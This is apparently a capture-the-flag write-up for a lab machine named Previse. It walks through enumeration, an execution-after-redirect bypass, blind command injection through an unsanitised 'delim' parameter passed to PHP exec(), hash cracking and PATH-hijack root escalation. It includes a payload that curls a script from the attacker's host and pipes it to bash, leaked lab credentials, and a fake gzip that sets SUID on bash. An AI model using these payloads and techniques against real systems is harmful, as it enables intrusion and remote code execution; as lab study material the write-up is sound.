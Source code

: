 # Enumeration

Starting with nmap
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-08 00:32 IST
Nmap scan report for 10.129.154.57
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.86 seconds
```
Looking at results, we have port 80 and 22 open.

## Port 80

![image](https://user-images.githubusercontent.com/43528306/128631381-323e709c-f1a3-47c7-8620-fefb4b5a8be7.png)

Site seems related to file storage. Trying some common username and passwords, but didn't work. Running ffuf for brute forcing directories, we found
```bash
 ffuf -u http://10.10.11.104/FUZZ -w /usr/share/wordlists/dirb/common.txt -c -e .php 
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,302
________________________________________________

                        [Status: 302, Size: 2801, Words: 737, Lines: 72]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 15406, Words: 15, Lines: 10]
files.php               [Status: 302, Size: 6068, Words: 1995, Lines: 131]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
status.php              [Status: 302, Size: 2971, Words: 749, Lines: 75]
```
Most of the pages gives 302 status code. We found `nav.php` with status code 200, means its not redirecting to other pages. Navigating to it
![image](https://user-images.githubusercontent.com/43528306/128631516-4abbaa83-1280-49df-be38-ad5a998941c3.png)

The page has a option to create an account, but `/account.php` was redirecting to `login.php`. Looking at response from each page using burp, 
we found that on pages which gave 302 redirect were having the wole page in the respones. This vulnerability is known as [Execution After redirect](https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR))

Here, we can skip the redirects by changing the status code from *302 Found* to *200 OK*. Using this knowledge, we can create a account on the site. We just need to follow these steps:
- Click on create account, Intercept the request
- Intercept the response from server
- Change status code from 302 to 200 OK

We now have a full working registration page, which allows us to create new account using which we can login to site.

![image](https://user-images.githubusercontent.com/94787830/148672286-b0333de8-445d-48e0-bbae-07020d4c5fa6.png)

On the *files* page, we found a zip file named `siteBackup.zip` which we can download. The zip archive contained the source code of the website.

![image](https://user-images.githubusercontent.com/94787830/148672321-0179b06c-b880-4734-b105-9999678a271d.png)

Looking at `config.php`, we found credentials for mysql.
```php
function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}
```
We have the credentials, but mysql port was not open. We could try using this password and user `m4lwhere` (found on website footer),to login. But no success.

### Command Injection

Looking at other files, the `logs.php` file was interesting. The page allow us to download log files from server with our choice of delemiter.
But the backend code was not sanitizing  *delim* parameter, and using it directly in PHP `exec()` function which makes it vulnerable to Command Injection.
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```
Fuzzing this endpoint, we found that web app was vulnerable to blind command injection. 
Using `delim=comma;curl 10.10.14.64:8000/test.sh|bash` as delimeter, we were able to get shell on the box.

## Shell as www-data
Looking at running services, we found that MySQL was running. Using the previously found credentials from `config.php`, we can connect to MySQL.
```bash
$ mysql -u root -p
Enter password: 

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| previse            |
| sys                |
+--------------------+
5 rows in set (0.00 sec)
mysql> use previse;
mysql> show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)
```
The table contained hash for user `m4lwhere`
```
m4lwhere: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
```
We can crack the hash either by using *Hashcat* or *John the Ripper*.

```bash
hashcat -m 500 hash /usr/share/wordlists/rockyou.txt

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
                                                  
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Sun Aug  8 16:48:10 2021 (19 mins, 13 secs)
Time.Estimated...: Sun Aug  8 17:07:23 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5293 H/s (11.51ms) @ Accel:32 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413376/14344385 (51.68%)
Rejected.........: 0/7413376 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidates.#1....: ilovecody98 -> ilovecloandlivey
```
We can ssh into the box using the credentials.

## ROOT
Checking sudo permissions
```bash
m4lwhere@previse:~$ sudo -l                                                         
[sudo] password for m4lwhere:                                                       
User m4lwhere may run the following commands on previse:                            
    (root) /opt/scripts/access_backup.sh
```
Looking at the script
```bash
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

The script was used to make backup, but it was using `gzip` without complete path which makes it vulnerable to *PATH Injection*. 

### Exploiting PATH Injection
To exploit it, Lets create a malicious script in `tmp` folder.
Script will be used to set suid bit on bash. After which, add `/tmp` to our path, and executing the script
```bash
m4lwhere@previse:/tmp$ cat gzip 
chmod +xs /bin/bash
m4lwhere@previse:/tmp$ chmod +x gzip 
m4lwhere@previse: PATH=.:$PATH
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh 
m4lwhere@previse:/tmp$ ls -al /bin/bash 
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash

m4lwhere@previse:/tmp$ bash -p

bash-4.4# whoami
root
```
